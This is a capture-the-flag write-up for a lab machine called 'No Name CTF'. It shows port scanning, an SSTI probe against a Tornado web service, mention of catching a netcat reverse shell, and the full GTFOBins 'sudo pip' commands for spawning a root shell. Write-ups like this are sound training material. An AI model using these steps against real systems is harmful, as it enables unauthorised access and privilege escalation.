










# No Name CTF

## Enumeration

As always, I started the Enumeration process by running Rustscan against the target

```
rustscan -a $machine_IP -- -A -sV -sC -T4 -v

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP:22
Open $machine_IP:80
Open $machine_IP:2222
Open $machine_IP:9090
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

PORT     STATE SERVICE       REASON         VERSION
22/tcp   open  ssh           syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
80/tcp   open  http          syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  EtherNetIP-1? syn-ack ttl 61
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, NULL, SSLSessionReq, TerminalServerCookie: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|   GetRequest, HTTPOptions, Help, RTSPRequest: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|     Wrong option
|_    Good bye
9090/tcp open  http          syn-ack ttl 61 Tornado httpd 6.0.3
|_http-title: Site doesn't have a title (text/plain).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: TornadoServer/6.0.3
```

## Port 2222

I was able to connect into the target through telnet on port 2222

```
telnet 10.10.103.121 2222
Trying 10.10.103.121...
Connected to 10.10.103.121.
Welcome to the NoNameCTF!
Choose an action:
> regiser: 1
> login: 2
> get_secret_directory: 3
> store_your_buffer: 4

Enter your buffer:test123 
Flag saved!
Choose an action:
> regiser: 1
> login: 2
> get_secret_directory: 3
> store_your_buffer: 4
3
My secret in the port 9090 is: test123
```
Passing through legitimate traffic provides me with additional insight into how this program works. Upon creating an account, I enter a buffer which is then saved. This indicates the potential for a buffer overflow attack. I then printed 1000 A's in an attempt to find the break point

```
python -c "print('A' * 1000)"                                                                                             

AAAAAAAAA...
```

In a more efficient fashion, it is possible to use the `Metasploit Framework Pattern Create` script to create random strings


Once I input this string to the program and saved this entry, it prompted me for a secret directory.



Navigating to that directory on port 9090 provided a secret directory



Verifying the source code showed an input parameter being passed





This looks like the server is running a Server Side Template before returning content. 

I then ran a PoC to see if it is indeed vulnerable. 

```
http://10.10.103.121:9090/40b5dffec4e39b7a3e9d261d2fc4a038/?hackme={{2+2}}/?hackme={{2+2}} - triggers the template engine
```



This proves that it is vulnerable to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). I was then able to verify that mathematical functions work. This was provided by [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)



Hacktricks also recommends using [Tplmap](https://github.com/epinna/tplmap) which is similar to SQLmap but does code injection detection and exploitation for server-side template injection. 



Meanwhile, my netcat listener was waiting on port 9999 which picked up a shell



## Privilege Escalation

In comparison to gaining the initial foothold, Privilege Escalation was a relatively straightforward process. I ran `sudo -l` to identify what this user could run to get root privileges.



This command indicates that this user can run pip as root. According to the GTFO bins page, there is a way to privesc using `sudo pip`

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

